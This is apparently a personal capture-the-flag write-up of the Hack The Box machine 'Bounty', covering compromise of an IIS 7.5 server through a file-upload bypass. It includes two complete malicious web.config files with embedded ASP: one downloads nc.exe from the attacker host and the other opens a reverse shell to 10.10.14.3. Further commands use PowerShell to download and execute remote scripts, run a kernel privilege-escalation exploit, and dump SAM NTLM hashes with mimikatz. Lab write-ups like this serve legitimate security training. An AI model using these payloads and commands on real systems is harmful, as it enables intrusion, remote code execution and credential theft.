 80/tcp open  http    Microsoft IIS httpd 7.5
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/7.5
|_http-title: Bounty
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

![](2021-02-09-15-21-25.png)

![](2021-02-09-15-22-16.png)

![](2021-02-09-15-22-56.png)

trying to upload .aspx file
![](2021-02-09-15-24-21.png)

![](2021-02-09-15-27-05.png)


test.png
![](2021-02-09-15-28-26.png)


Can be accessed:
![](2021-02-09-15-28-45.png)

I'm able to upload any data with 
    Content-Disposition: form-data; name="FileUpload1"; filename="shell.png"
    Content-Type: image/png

but file extension is checked

valid: jpg,png,gif

does not check content or Content-Type

Traversal attack does not work
![](2021-02-09-15-42-19.png)

trying all of these with burp intruder
.asp
.aspx
.config
.ashx
.asmx
.aspq
.axd
.cshtm
.cshtml
.rem
.soap
.vbhtm
.vbhtml
.asa
.asp
.cer
.shtml
![](2021-02-09-15-54-25.png)

seems `.config` works



.jpg
.png
.gif
.webp
.tiff
.psd
.raw
.bmp
.heif
.indd
.svg
.ai
.eps
.pdf

![](2021-02-09-15-52-36.png)

only png, jpg, jpeg, gif are valid


https://gist.github.com/gazcbm/ea7206fbbad83f62080e0bbbeda77d9c


Download nc.exe save to C:\windows\temp
```xml
<?xml version="1.0" encoding="UTF-8"?>
<configuration>
   <system.webServer>
      <handlers accessPolicy="Read, Script, Write">
         <add name="web_config" path="*.config" verb="*" modules="IsapiModule" scriptProcessor="%windir%\system32\inetsrv\asp.dll" resourceType="Unspecified" requireAccess="Write" preCondition="bitness64" />         
      </handlers>
      <security>
         <requestFiltering>
            <fileExtensions>
               <remove fileExtension=".config" />
            </fileExtensions>
            <hiddenSegments>
               <remove segment="web.config" />
            </hiddenSegments>
         </requestFiltering>
      </security>
   </system.webServer>
</configuration>
<!-- ASP code comes here! It should not include HTML comment closing tag and double dashes!
<%
Response.write("-"&"->")
' Set your settings
    strFileURL = "http://10.10.14.3/nc.exe"
    strHDLocation = "C:\Windows\Temp\nc.exe"
' Fetch the file
    Set objXMLHTTP = CreateObject("MSXML2.XMLHTTP")
    objXMLHTTP.open "GET", strFileURL, false
    objXMLHTTP.send()
    If objXMLHTTP.Status = 200 Then
      Set objADOStream = CreateObject("ADODB.Stream")
      objADOStream.Open
      objADOStream.Type = 1 'adTypeBinary
      objADOStream.Write objXMLHTTP.ResponseBody
      objADOStream.Position = 0    'Set the stream position to the start
      Set objFSO = Createobject("Scripting.FileSystemObject")
        If objFSO.Fileexists(strHDLocation) Then objFSO.DeleteFile strHDLocation
      Set objFSO = Nothing
      objADOStream.SaveToFile strHDLocation
      objADOStream.Close
      Set objADOStream = Nothing
    End if
    Set objXMLHTTP = Nothing
    
Response.write("<!-"&"-")
%>
-->
```

kali@kali:/usr/share/windows-binaries$ sudo python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.10.93 - - [09/Feb/2021 15:59:08] "GET /nc.exe HTTP/1.1" 200 -

execute nc.exe

```xml
<?xml version="1.0" encoding="UTF-8"?>
<configuration>
   <system.webServer>
      <handlers accessPolicy="Read, Script, Write">
         <add name="web_config" path="*.config" verb="*" modules="IsapiModule" scriptProcessor="%windir%\system32\inetsrv\asp.dll" resourceType="Unspecified" requireAccess="Write" preCondition="bitness64" />         
      </handlers>
      <security>
         <requestFiltering>
            <fileExtensions>
               <remove fileExtension=".config" />
            </fileExtensions>
            <hiddenSegments>
               <remove segment="web.config" />
            </hiddenSegments>
         </requestFiltering>
      </security>
   </system.webServer>
</configuration>
<!-- ASP code comes here! It should not include HTML comment closing tag and double dashes!
<%
Response.write("-"&"->")
Set objShell = CreateObject("WScript.Shell")
objShell.Exec("c:\Windows\Temp\nc.exe -d 10.10.14.3 1234 -e c:\windows\system32\cmd.exe")
Response.write("<!-"&"-")
%>
-->
```

![](2021-02-09-16-00-47.png)


Microsoft Windows Server 2008 R2 Datacenter


kali@kali:~/htb/boxes/bounty/10.10.10.93$ /opt/privesc/windows/Windows-Exploit-Suggester/windows-exploit-suggester.py --database /opt/privesc/windows/Windows-E
xploit-Suggester/2020-12-09-mssb.xls -i sysinfo.txt 
[*] initiating winsploit version 3.3...
[*] database file detected as xls or xlsx based on extension
[*] attempting to read from the systeminfo input file
[+] systeminfo input file read successfully (ascii)
[*] querying database file for potential vulnerabilities
[*] comparing the 0 hotfix(es) against the 197 potential bulletins(s) with a database of 137 known exploits
[*] there are now 197 remaining vulns
[+] [E] exploitdb PoC, [M] Metasploit module, [*] missing bulletin
[+] windows version identified as 'Windows 2008 R2 64-bit'
[*] 
[M] MS13-009: Cumulative Security Update for Internet Explorer (2792100) - Critical
[M] MS13-005: Vulnerability in Windows Kernel-Mode Driver Could Allow Elevation of Privilege (2778930) - Important
[E] MS12-037: Cumulative Security Update for Internet Explorer (2699988) - Critical
[*]   http://www.exploit-db.com/exploits/35273/ -- Internet Explorer 8 - Fixed Col Span ID Full ASLR, DEP & EMET 5., PoC
[*]   http://www.exploit-db.com/exploits/34815/ -- Internet Explorer 8 - Fixed Col Span ID Full ASLR, DEP & EMET 5.0 Bypass (MS12-037), PoC
[*] 
[E] MS11-011: Vulnerabilities in Windows Kernel Could Allow Elevation of Privilege (2393802) - Important
[M] MS10-073: Vulnerabilities in Windows Kernel-Mode Drivers Could Allow Elevation of Privilege (981957) - Important
[M] MS10-061: Vulnerability in Print Spooler Service Could Allow Remote Code Execution (2347290) - Critical
[E] MS10-059: Vulnerabilities in the Tracing Feature for Services Could Allow Elevation of Privilege (982799) - Important
[E] MS10-047: Vulnerabilities in Windows Kernel Could Allow Elevation of Privilege (981852) - Important
[M] MS10-002: Cumulative Security Update for Internet Explorer (978207) - Critical
[M] MS09-072: Cumulative Security Update for Internet Explorer (976325) - Critical
[*] done


C:\Windows\Temp>wmic os get osarchitecture
wmic os get osarchitecture
OSArchitecture  
64-bit


powershell (new-object System.Net.WebClient).Downloadfile('http://10.10.14.3:9090/winPEAS.bat', 'winpeas.bat')



C:\Windows\Panther\Unattend.xml exists.


https://book.hacktricks.xyz/windows/windows-local-privilege-escalation#appcmd-exe

Download and execute
c:\windows\system32\inetsrv>powershell.exe IEX (New-Object System.Net.WebClient).DownloadString('http://10.10.14.3/appcmd.ps1')
powershell.exe IEX (New-Object System.Net.WebClient).DownloadString('http://10.10.14.3/appcmd.ps1')
False


C:\Windows\Panther\Unattend.xml

sensitive data deleted


powershell.exe (New-Object System.Net.WebClient).DownloadFile('http://10.10.14.3/MS11-011.exe', 'MS11-011.exe')

![](2021-02-09-16-27-11.png)

![](2021-02-09-16-27-22.png)


mimikatz # lsadump::sam filename1.hiv filename2.hiv
Domain : BOUNTY
SysKey : d416c64501183d5dbfbd9798f79216b7
Local SID : S-1-5-21-2239012103-4222820348-3209614936

SAMKey : 95eed8fe42d961e7093ddc15c1dd2f5d

RID  : 000001f4 (500)
User : Administrator
  Hash NTLM: 89dd4e73364721f8e2abe67d7090b686

RID  : 000001f5 (501)
User : Guest

RID  : 000003e8 (1000)
User : merlin
  Hash NTLM: 2d588983dbc4d1356b19277afef85092
